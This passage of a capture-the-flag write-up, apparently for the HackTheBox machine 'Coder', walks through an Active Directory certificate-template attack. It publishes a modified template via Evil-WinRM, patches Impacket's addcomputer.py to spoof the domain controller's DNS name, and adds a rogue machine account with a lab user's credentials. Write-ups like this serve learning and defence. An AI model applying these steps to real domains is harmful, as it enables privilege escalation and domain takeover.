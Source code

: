

    *Evil-WinRM* PS C:\programdata> $computer = cat computer.json -raw | ConvertFrom-Json
    *Evil-WinRM* PS C:\programdata> $computer.'msPKI-Enrollment-Flag' = 0x80000
    *Evil-WinRM* PS C:\programdata> $computer | ConvertTo-Json | Set-Content computer-mod.json



Now I create the template:



    *Evil-WinRM* PS C:\programdata> New-ADCSTemplate -DisplayName oxdf -Publish -JSON (cat computer-mod.json -raw)



#### Create Malicious Machine Object

[Impacket](https://github.com/SecureAuthCorp/impacket) has a script to
add a computer object to a domain, but it doesn't by default give the
user control over the DNS name. I'll make a copy of that script:



    oxdf@hacky$ which addcomputer.py 
    /home/oxdf/.local/bin/addcomputer.py
    oxdf@hacky$ cp ~/.local/bin/addcomputer.py addcomputer.py



The string `dns` shows up at line 229:



    oxdf@hacky$ cat addcomputer.py | grep -n dns
    229:                    'dnsHostName': '%s.%s' % (computerHostname, self.__domain),



I'll change the script so that the DNS hostname is always DC01:



                    ucd = {
                        'dnsHostName': '%s.%s' % ('DC01', self.__domain),
                        'userAccountControl': 0x1000,
                        'servicePrincipalName': spns,
                        'sAMAccountName': self.__computerName,
                        'unicodePwd': ('"%s"' % self.__computerPassword).encode('utf-16-le')
                    }



Now I'll add the computer:



    oxdf@hacky$ python addcomputer.py 'coder.htb/s.blade:AmcwNO60Zg3vca3o0HDrTC6D' -method LDAPS -computer-name "0xdf_PC" -computer-pass "0xdf0xdf" -computer-group OU=BuildAgents,OU=DEVELOPMENT,DC=CODER,DC=HTB
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [*] Successfully added machine account 0xdf_PC$ with password 0xdf0xdf.


